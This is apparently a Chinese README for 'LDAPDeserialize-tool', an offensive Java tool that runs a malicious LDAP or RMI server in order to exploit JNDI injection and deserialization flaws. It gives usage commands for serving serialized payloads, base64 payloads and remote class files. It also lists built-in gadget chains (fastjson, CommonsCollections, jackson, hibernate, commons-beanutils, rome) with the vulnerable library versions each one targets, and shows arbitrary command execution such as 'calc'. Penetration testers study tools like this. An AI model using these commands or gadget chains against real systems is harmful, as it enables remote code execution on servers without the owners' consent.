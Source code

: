### 功能描述

启动环境：JDK8

```
【使用】
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip


【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)
* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)


 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```

### 演示

1、使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作

![截图](image/cc370864ddff7bce2c17cdf15b6b2df3.png)

<br/>

2、使用base64编码后的序列化数据启动

![截图](image/10b93a10ec217bb82424756bc05c413b.png)

<br/>

3、使用内置反序列化链

![截图](image/99b85665c9c03cedeb281f5729c6d945.png)

<br/>

4、使用RMI反序列化方式（只支持内置的反序列化链）

![截图](image/e49210b2672c44f1ba10bd784bbefc56.png)